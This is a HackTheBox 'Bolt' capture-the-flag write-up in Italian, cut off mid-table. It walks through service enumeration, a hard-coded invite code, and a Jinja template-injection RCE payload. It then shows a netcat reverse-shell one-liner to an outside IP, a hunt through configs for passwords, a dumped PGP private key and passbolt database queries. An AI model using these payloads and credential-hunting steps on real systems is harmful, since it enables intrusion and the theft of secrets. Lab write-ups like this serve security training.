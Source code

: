 #+TITLE: HTB - Bolt
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV bolt
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 04:53 CEST
Nmap scan report for bolt (10.129.119.38)
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4d:20:8a:b2:c2:8c:f5:3e:be:d2:e8:18:16:28:6e:8e (RSA)
|   256 7b:0e:c7:5f:5a:4c:7a:11:7f:dd:58:5a:17:2f:cd:ea (ECDSA)
|_  256 a7:22:4e:45:19:8e:7d:3c:bc:df:6e:1d:6c:4f:41:56 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title:     Starter Website -  About 
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| http-title: Passbolt | Open source password manager for teams
|_Requested resource was /auth/login?redirect=%2F
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty Ltd/stat
eOrProvinceName=Some-State/countryName=AU
| Not valid before: 2021-02-24T19:11:23
|_Not valid after:  2022-02-24T19:11:23
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.27 seconds

  #+end_example
*** nmap -p- bolt
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 04:53 CEST
Nmap scan report for bolt (10.129.119.38)
Host is up (0.059s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 25.47 seconds

  #+end_example

** gobuster
*** leo@kali:~/repos/bolt$ gobuster vhost -u bolt.htb -w ~/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt 
    #+begin_example
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://bolt.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/leo/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/31 05:05:22 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mail.bolt.htb (Status: 200) [Size: 4943]
Found: demo.bolt.htb (Status: 302) [Size: 219] 
Progress: 2643 / 114442 (2.31%)               ^C
[!] Keyboard interrupt detected, terminating.
panic: runtime error: invalid memory address or nil pointer dereference
[signal SIGSEGV: segmentation violation code=0x1 addr=0x0 pc=0x773b15]

goroutine 26 [running]:
github.com/OJ/gobuster/gobustervhost.(*GobusterVhost).Run(0xc000012840, 0xc00001b100, 0x8, 0xc000064240, 0x1, 0x0)
        github.com/OJ/gobuster/gobustervhost/gobustervhost.go:125 +0x255
github.com/OJ/gobuster/libgobuster.(*Gobuster).worker(0xc0000128a0, 0xc000090300, 0xc0000aa080)
        github.com/OJ/gobuster/libgobuster/libgobuster.go:91 +0x1de
created by github.com/OJ/gobuster/libgobuster.(*Gobuster).Start
        github.com/OJ/gobuster/libgobuster/libgobuster.go:158 +0x16a
    
    #+end_example
** docker files
   Enumerando i file ottenuti scaricando ~image.tar~ dal sito
   http://bolt ho trovato la cartella
   
   #+begin_example
   41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/base
   #+end_example

   che contiene il file ~app/base/routes.py~, e, in particolare, nel
   metodo ~register()~ è presente il seguente codice di invito
   hard-coded

   #+begin_example
   XNSS-HSJW-3NGU-8XTJ
   #+end_example

   come possiamo vedere dal codice della funzione, mettendo questo
   codice siamo in grado di iscriverci alla piattaforma.

   #+begin_src python
@blueprint.route('/register', methods=['GET', 'POST'])
def register():
    login_form = LoginForm(request.form)
    create_account_form = CreateAccountForm(request.form)
    if 'register' in request.form:

        username  = request.form['username']
        email     = request.form['email'   ]
        code	  = request.form['invite_code']
        if code != 'XNSS-HSJW-3NGU-8XTJ':
            return render_template('code-500.html')
        data = User.query.filter_by(email=email).first()
        if data is None and code == 'XNSS-HSJW-3NGU-8XTJ':
            # Check usename exists
            user = User.query.filter_by(username=username).first()
            if user:
                return render_template( 'accounts/register.html', 
                                    msg='Username already registered',
                                    success=False,
                                    form=create_account_form)

            # Check email exists
            user = User.query.filter_by(email=email).first()
            if user:
                return render_template( 'accounts/register.html', 
                                    msg='Email already registered', 
                                    success=False,
                                    form=create_account_form)

            # else we can create the user
            user = User(**request.form)
            db.session.add(user)
            db.session.commit()

            return render_template( 'accounts/register.html', 
                                msg='User created please <a href="/login">login</a>', 
                                success=True,
                                form=create_account_form)

    else:
        return render_template( 'accounts/register.html', form=create_account_form)
   #+end_src
** SSTI
   Modificando il profilo dell'utente in ~demo.bolt.htb~, e
   successivamente, confermando in ~mail.bolt.htb~ siamo in grado di
   ottenere una RCE tramite una SSTI con il seguente payload
   
   #+begin_example
   {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
   #+end_example

   Per una reverse shell eseguiamo il seguente payload

   #+begin_example
   {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.5 4321 >/tmp/f   ').read() }}
   #+end_example

* PrivEsc
** Misc
*** www-data@bolt:~/demo$ cat config.py
    #+begin_example
cat config.py
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek'
MAIL_SERVER = 'localhost'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
#MAIL_DEBUG = app.debug
MAIL_USERNAME = None
MAIL_PASSWORD = None
DEFAULT_MAIL_SENDER = 'support@bolt.htb'

    #+end_example

*** roundcubeuser db 
    #+begin_example
    $config['db_dsnw'] = 'mysql://roundcubeuser:WXg5He2wHt4QYHuyGET@localhost/roundcube';
    #+end_example

*** www-data@bolt:~/roundcube/config$ cat /etc/passwd
    #+begin_example
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
eddie:x:1000:1000:Eddie Johnson,,,:/home/eddie:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
vboxadd:x:998:1::/var/run/vboxadd:/bin/false
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
mysql:x:127:133:MySQL Server,,,:/nonexistent:/bin/false
clark:x:1001:1001:Clark Griswold,,,:/home/clark:/bin/bash
postfix:x:128:134::/var/spool/postfix:/usr/sbin/nologin
vmail:x:5000:5000::/var/mail:/usr/bin/nologin
dovecot:x:129:136:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:130:137:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin    
    #+end_example

*** ps aux
    #+begin_example
root         454  0.0  0.0  85132   288 ?        Ssl  20:36   0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
root         518  0.0  0.0      0     0 ?        I<   20:36   0:00 [cryptd]
systemd+     559  0.0  0.1  90260  5980 ?        Ssl  20:36   0:00 /lib/systemd/systemd-timesyncd
root         562  0.0  0.0      0     0 ?        I<   20:36   0:00 [nfit]
root         592  0.0  0.2  58776 10508 ?        Ss   20:36   0:00 /usr/bin/VGAuthService
root         599  0.0  0.0   2548   716 ?        Ss   20:36   0:00 /usr/sbin/acpid
avahi        607  0.0  0.0   8532  3440 ?        Ss   20:36   0:01 avahi-daemon: running [bolt.local]
root         612  0.0  0.0  18052  2968 ?        Ss   20:36   0:00 /usr/sbin/cron -f
message+     619  0.0  0.1   7924  4716 ?        Ss   20:36   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         622  0.0  0.4 270316 18940 ?        Ssl  20:36   0:00 /usr/sbin/NetworkManager --no-daemon
root         635  0.0  0.1  99904  6004 ?        Ssl  20:36   0:00 /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leas
root         641  0.0  0.0  81968  3608 ?        Ssl  20:36   0:00 /usr/sbin/irqbalance --foreground
root         642  0.0  0.5  47968 20092 ?        Ss   20:36   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         645  0.0  0.1 232724  6684 ?        Ssl  20:36   0:00 /usr/lib/policykit-1/polkitd --no-debug
syslog       659  0.0  0.1 224328  5228 ?        Ssl  20:36   0:00 /usr/sbin/rsyslogd -n -iNONE
root         673  0.0  0.1  16484  5504 ?        Ss   20:36   0:00 /lib/systemd/systemd-logind
root         675  0.0  0.1  13688  4844 ?        Ss   20:36   0:00 /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
root         683  0.1  0.2 249016  8524 ?        Ssl  20:36   0:07 /usr/bin/vmtoolsd
avahi        687  0.0  0.0   8352   324 ?        S    20:36   0:00 avahi-daemon: chroot helper
root         761  0.0  0.2 314448 10876 ?        Ssl  20:36   0:00 /usr/sbin/ModemManager
systemd+     834  0.0  0.3  24056 12888 ?        Ss   20:36   0:00 /lib/systemd/systemd-resolved
www-data     897  0.0  0.5  41296 22424 ?        Ss   20:36   0:00 /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app
root         898  0.0  0.0   4544  3356 ?        Ss   20:36   0:00 /usr/sbin/dovecot -F
www-data     899  0.0  0.5  41296 22412 ?        Ss   20:36   0:00 /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app
root         903  0.0  0.9 251708 38204 ?        Ss   20:36   0:00 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
whoopsie     910  0.0  0.3 400564 15572 ?        Ssl  20:36   0:00 /usr/bin/whoopsie -f
kernoops     915  0.0  0.0  11264   452 ?        Ss   20:36   0:00 /usr/sbin/kerneloops --test
root         922  0.0  0.1  12184  7316 ?        Ss   20:36   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
dovecot      930  0.0  0.0   4256  1128 ?        S    20:36   0:00 dovecot/anvil
root         931  0.0  0.0   4396  2984 ?        S    20:36   0:00 dovecot/log
root         933  0.0  0.1   5684  4172 ?        S    20:36   0:00 dovecot/config
kernoops     934  0.0  0.0  11264   452 ?        Ss   20:36   0:00 /usr/sbin/kerneloops
root         940  0.0  0.0  65664  1672 ?        Ss   20:36   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data     942  0.0  0.2  66772  8772 ?        S    20:36   0:00 nginx: worker process
www-data     943  0.0  0.2  67204  9000 ?        S    20:36   0:02 nginx: worker process
root         944  0.0  0.0  17068  1828 tty1     Ss+  20:36   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
www-data     954  0.0  1.0 252868 43084 ?        S    20:36   0:01 php-fpm: pool www
www-data     955  0.0  1.0 252860 43468 ?        S    20:36   0:00 php-fpm: pool www
mysql       1010  0.3 10.2 1759136 407364 ?      Ssl  20:36   0:14 /usr/sbin/mysqld
www-data    1059  0.1  1.1  78448 44380 ?        S    20:36   0:05 /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app
root        1273  0.0  0.0  38044  3416 ?        Ss   20:36   0:00 /usr/lib/postfix/sbin/master -w
postfix     1274  0.0  0.1  38312  5212 ?        S    20:36   0:00 pickup -l -t unix -u -c
postfix     1275  0.0  0.1  38508  5316 ?        S    20:36   0:00 qmgr -l -t unix -u
www-data    2070  0.0  0.0  78236   884 ?        Ss   20:53   0:00 gpg-agent --homedir /var/lib/passbolt/.gnupg --use-standard-socket --daemon
dovecot     2483  0.0  0.0   4392  2864 ?        S    21:08   0:00 dovecot/stats
root        2550  0.0  0.0      0     0 ?        I    21:09   0:00 [kworker/1:0-events]
dovecot     3022  0.0  0.1  20304  7968 ?        S    21:31   0:00 dovecot/auth
root        3047  0.0  0.0      0     0 ?        I    21:32   0:00 [kworker/0:0-events]
root        3349  0.0  0.0      0     0 ?        I    21:39   0:00 [kworker/1:1-mm_percpu_wq]
root        3352  0.0  0.0      0     0 ?        I    21:39   0:00 [kworker/u256:1-ext4-rsv-conversion]
root        3513  0.0  0.0      0     0 ?        I    21:44   0:00 [kworker/u256:0-events_unbound]
www-data    3682  0.0  0.0   2616   540 ?        S    21:49   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.5 4321 >/tmp/f   
www-data    3685  0.0  0.0  16860   588 ?        S    21:49   0:00 cat /tmp/f
www-data    3686  0.0  0.0   2616   604 ?        S    21:49   0:00 /bin/sh -i
www-data    3687  0.0  0.0   3340  2004 ?        S    21:49   0:00 /bin/nc 10.10.14.5 4321
www-data    3689  0.0  0.2  26384  8944 ?        S    21:49   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data    3690  0.0  0.1  18476  3992 pts/0    Ss   21:49   0:00 /bin/bash
www-data    3692  0.0  0.9  67480 38708 ?        S    21:49   0:00 /usr/bin/python3 /usr/local/bin/gunicorn wsgi:app
root        3823  0.0  0.2  20476 10084 ?        S    21:53   0:00 dovecot/auth -w
www-data    3853  0.0  0.0  20132  3240 pts/0    R+   21:54   0:00 ps aux    
    #+end_example
*** www-data@bolt:/var/lib$ find / -name "passbolt" 2>/dev/null
    #+begin_example
find / -name "passbolt" 2>/dev/null
/etc/passbolt
/usr/share/php/passbolt
/usr/share/passbolt
/var/lib/passbolt
/var/log/passbolt    
    #+end_example
*** grep -nr 'password' /etc/passbolt
    #+begin_example
    'App' => [
        // A base URL to use for absolute links.
        // The url where the passbolt instance will be reachable to your end users.
        // This information is need to render images in emails for example
        'fullBaseUrl' => 'https://passbolt.bolt.htb',
    ],

    // Database configuration.
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
    ],
    
    #+end_example

*** eddie@bolt:~$ grep -nr -- '-----BEGIN PGP PRIVATE KEY BLOCK-----' .
    #+begin_example
./.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js:27039:const PRIVATE_HEADER = '-----BEGIN PGP PRIVATE KEY BLOCK-----';
./.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/vendors/openpgp.js:32409:      result.push("-----BEGIN PGP PRIVATE KEY BLOCK-----\r\n");
Binary file ./.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log matches
./private.key:1:-----BEGIN PGP PRIVATE KEY BLOCK-----    
    #+end_example

*** /home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log
    #+begin_example
"passbolt-private-gpgkeys":"{\"MY_KEY_ID\":{\"key\":\"-----BEGIN PGP PRIVATE KEY BLOCK-----\\r\\nVersion: OpenPGP.js v4.10.9\\r\\nComment: https://openpgpjs.org\\r\\n\\r\\n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\\r\\nPSwYYWlAywj5\\r\\n=cqxZ\\r\\n-----END PGP PRIVATE KEY BLOCK-----\\r\\n\"    
    #+end_example

** database (passbolt)
   
   #+begin_example
   mysql -u passbolt -h localhost -p
   #+end_example

   da utilizzare con la seguente password

   #+begin_example
   rT2;jW7<eY8!dX8}pQ8%
   #+end_example

*** mysql> select * from users;
    #+begin_example
select * from users;
+--------------------------------------+--------------------------------------+----------------+--------+---------+---------------------+---------------------+
| id                                   | role_id                              | username       | active | deleted | created             | modified            |
+--------------------------------------+--------------------------------------+----------------+--------+---------+---------------------+---------------------+
| 4e184ee6-e436-47fb-91c9-dccb57f250bc | 1cfcd300-0664-407e-85e6-c11664a7d86c | eddie@bolt.htb |      1 |       0 | 2021-02-25 21:42:50 | 2021-02-25 21:55:06 |
| 9d8a0452-53dc-4640-b3a7-9a3d86b0ff90 | 975b9a56-b1b1-453c-9362-c238a85dad76 | clark@bolt.htb |      1 |       0 | 2021-02-25 21:40:29 | 2021-02-25 21:42:32 |
+--------------------------------------+--------------------------------------+----------------+--------+---------+---------------------+---------------------+
2 rows in set (0.00 sec)    
    #+end_example

*** mysql> show tables;
    #+begin_example
show tables;
+-----------------------+
| Tables_in_passboltdb  |
+-----------------------+
| account_settings      |
| action_logs           |
| actions               |
| authentication_tokens |
| avatars               |
| comments              |
| email_queue           |
| entities_history      |
| favorites             |
| gpgkeys               |
| groups                |
| groups_users          |
| organization_settings |
| permissions           |
| permissions_history   |
| phinxlog              |
| profiles              |
| resource_types        |
| resources             |
| roles                 |
| secret_accesses       |
